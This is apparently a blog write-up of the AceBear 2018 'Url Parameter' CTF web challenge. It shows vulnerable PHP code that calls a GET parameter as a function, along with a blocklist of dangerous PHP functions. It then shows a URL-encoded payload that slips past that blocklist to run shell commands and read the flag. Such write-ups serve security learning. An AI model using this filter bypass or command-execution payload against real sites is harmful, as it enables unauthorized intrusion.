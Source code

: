 ```yaml
---
layout: post
title: Url Parameter
category: AceBear 2018
---
```




Hello guys, just wake up after 48h of fighting, i will try to make write up for all web task as its all cleaned Here :D

So lets start with this easy task (at least look easy for me  :p) 

First look at robots.txt give us some hint : `http://35.196.45.11:8080/robots.txt`

give us :

```
# you know de wae ma queen
User-Agent: *
Disallow: /?debug
```

then check 

`
http://35.196.45.11:8080/?debug
`
will show us simple php code , we need to send something like `http://35.196.45.11:8080/system=id` where system is the $key and id is the $val

```
$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";

if(count($_GET) > 0){
	if(preg_match("/$blacklist/i",$_SERVER["REQUEST_URI"])) die("No no no hackers!!");
	list($key, $val) = each($_GET);
	$key($val);
}
```

almost here all function that can be used filtred (open & read & _ ) will filter also many other function

so here make me stuck !

but my friend mention something that maked this almost done 'encode'
As here the filter work on ```$_SERVER["REQUEST_URI"]``` and then in final step we have ```$_GET``` so if we encode our data it end decoded in   ```each($_GET); ``` but not in ```$_SERVER["REQUEST_URI"]```

So the plan is clear here, encode our data to bypass filter and call any function :D

![image](https://user-images.githubusercontent.com/7364615/35493904-ffb66d3c-04b6-11e8-8c82-25acb5c3c60b.png)

lets try it now :

`http://35.196.45.11:8080/%73%79%73%74%65%6d=ls`

![image](https://user-images.githubusercontent.com/7364615/35493920-219f6c1e-04b7-11e8-8660-9d4e6a53dfcd.png)

Then final step read flag file :D 

![image](https://user-images.githubusercontent.com/7364615/35493934-4ac2221c-04b7-11e8-88c0-5b0ca3caf17b.png)

`
AceBear{I_did_something_stupid_with_url}
`

Thanks guys , will try to make write up (BearShare & BearShare 2 & Tet shopping) ;)

